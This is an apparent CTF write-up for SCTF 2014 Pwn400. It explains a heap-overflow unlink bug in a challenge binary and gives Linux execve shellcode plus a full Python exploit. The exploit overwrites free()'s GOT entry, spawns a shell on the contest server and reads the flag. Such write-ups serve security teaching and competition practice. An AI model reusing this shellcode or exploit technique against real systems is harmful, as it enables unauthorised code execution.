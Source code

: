 ```yaml
---
title: SCTF 2014 -- Pwn400
tags:
  - Pwnable
  - XCTF
  - SCTF
  - Python
  - CTF
  - heap
  - shellcode
categories:
  - write-ups
date: 2014-12-08 14:54:00
---
```

Similar with Pwn200, Pwn400 gave us a binary file, but no libc.so. Open it with IDA Pro and analyze it, we found some information:
<!-- more -->

First, there's a data structure ( let's call it **node** ) which look like this:

```c
struct node{
  node *this; // the address of this node
  node *prev; // the address of the previous node
  node *next; // the address of the next node
  char title[64];
  char type[32];
  char content[256];
};

```
In this program, we're allow to:
1. New a node
2. Show a node's address ( yep, no need to leak it! )
3. Edit a node's content
4. Delete a node (by giving its address)

Notice that **we can ovewrite a node's data by overflowing its previous node's content**. Moreover, after checking the function of deleting a node, we found the following code:

``` c 
if ( *(_DWORD *)ptr == ptr )
{
    if ( *(_DWORD *)a1 == ptr )
    {
        *(_DWORD *)a1 = *(_DWORD *)(*(_DWORD *)a1 + 8);
    }
    else
    {
        if ( *(_DWORD *)(ptr + 8) )
        {
            /* the unlink vulnerability */
            v1 = *(_DWORD *)(ptr + 8);
            v2 = *(_DWORD *)(ptr + 4);
            *(_DWORD *)(v2 + 8) = v1;
            *(_DWORD *)(v1 + 4) = v2;
        }
        else
        {
            *(_DWORD *)(*(_DWORD *)(ptr + 4) + 8) = 0;
        }
    }
    write(1, "succeed!\n\n", 0xAu);
    free((void *)ptr);
}

```

The vulnerability's obvious: **Heap overflow**, except it use its own data structure.

Since it doesn't enable the DEP protection, we can store our shellcode in a known memory address (**which is, in this case, a node's content**), then exploit the heap overflow vulnerability, by overwriting `free()`'s GOT, let the function pointer point to our shellcode. 

For instance:
``` c
//free's GOT entry: 0x0804a450
v1 = node->next // 0x0804a44c, because 0x0804a44c+4 = 0x0804a450  
v2 = node->prev // shellcode's address
*(_DWORD *)(shellcode's address + 8) = 0x0804a44c ; //4 bytes of shellcode will be overwritten
*(_DWORD *)(0x0804a450) = shellcode's address; // overwrite free()'s GOT

```

Note that 4 bytes in shellcode will be overwritten, so we'll have to use `jmp relative` to skip those 4 bytes machine code. Here's my shellcode:

``` python
"\x90\x90\x90\x90\x90\x90"+ # NOP
"\xeb\x08"+ # skip 8 bytes
"AAAA"+ # overwritten part
"\x90"*10+ # NOP
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80" # shell
```

So here's the exploitation:
1. New 3 nodes: node1, node2 & node3
2. Store the shellcode in node3's content
3. Get the address of node3 & node2, calculate the shellcode's address
4. Edit node1, overwrite node2's prev & next by overflowing node1's content
5. Delete node2, overwrite `free()`'s GOT,  execute the shellcode & capture the flag
    
Here's the python script. Due to the connection problem, it has to wait 1 second before it recieve server's response.

``` python pwn400.py
from socket import *
import time
import binascii

sock = socket(AF_INET, SOCK_STREAM)
sock.connect(("218.2.197.248", 10003))

shell = "\x90\x90\x90\x90\x90\x90"+"\xeb\x08"+"AAAA"+"\x90"*10+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80"

print sock.recv(1024)

#insert node1
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)

#insert node2
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)

#insert node3
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send(shell+"\n") #write shellcode to node3's content
time.sleep(1)
print sock.recv(1024)

#show node 3 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
res = sock.recv(1024)
print res

#calculate shellcode's address
index = res.index("0x")
temp = res[index:index+10:]
shellcode_addr = int(temp, 16)+108
print "shellcode address: ", hex(shellcode_addr)
shellcode_addr_str = binascii.a2b_hex(hex(shellcode_addr)[2:10:].zfill(8))
print shellcode_addr_str

#show node 2 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
res = sock.recv(1024)
print res

index = res.index("0x")
temp = res[index:index+10:]
address = int(temp, 16)
del_addr = hex(address)[2::]
print "node2 address:", del_addr
node2_addr_str = binascii.a2b_hex(hex(address)[2:10:].zfill(8))
print node2_addr_str 

#BBBB: offset
#free()'s GOT: 0x0804a450, we send 0x0804a44c
exploit = "A"*256+"BBBB"+node2_addr_str[::-1]+shellcode_addr_str[::-1]+"\x4c\xa4\x04\x08"

#edit node 1
sock.send("4\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send(exploit+"\n") #overflow node1's content
time.sleep(1)
print sock.recv(1024)

#delete node 2
sock.send("5\n")
time.sleep(1)
print sock.recv(1024)
sock.send(del_addr+"\n")
time.sleep(1)
print sock.recv(1024)

sock.send('cat /home/pwn3/flag/flag\n') #capture the flag
time.sleep(1)
print sock.recv(1024)

sock.close()
```

The "BBBB" in the exploit is a 4 bytes data between each node. It actually is the meta data of a chunk. The `free()` function will check the meta data before it free the memory of a node. If the meta data isn't correct, the program will crash. But since we overwrite `free()`'s GOT, that meta data's no longer a problem.

flag: `SCTF{2318540E78446A0E84EF69685092F0C3}`